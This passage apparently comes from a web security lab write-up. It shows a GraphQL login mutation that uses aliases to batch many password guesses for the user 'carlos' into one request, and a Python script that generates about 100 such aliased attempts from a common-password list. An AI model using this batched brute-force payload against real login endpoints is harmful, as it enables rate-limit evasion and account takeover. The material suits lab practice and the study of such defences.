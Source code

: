 ```json
mutation {
        attack0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }
          attack1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }
          attack2:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
    }
```

![[attack123.png]]

To create all 99 logins faster, create a simple Python script:

```python
passwords = """123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,
monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,
000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,
sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,
jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,
amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,
mobilemail,mom,monitor,monitoring,montana,moon,moscow""".replace("\n", "").split(',')

graphql_queries = []

# Generate the GraphQL query aliases
for index, password in enumerate(passwords):
    query = f"""
    attack{index}: login(input: {{password: "{password}", username: "carlos"}}) {{
        token
        success
    }}
    """
    graphql_queries.append(query)

# Join all the queries into one string with newlines separating each query
final_query = "\n".join(graphql_queries)

# Output the generated GraphQL query string
print(final_query)
```
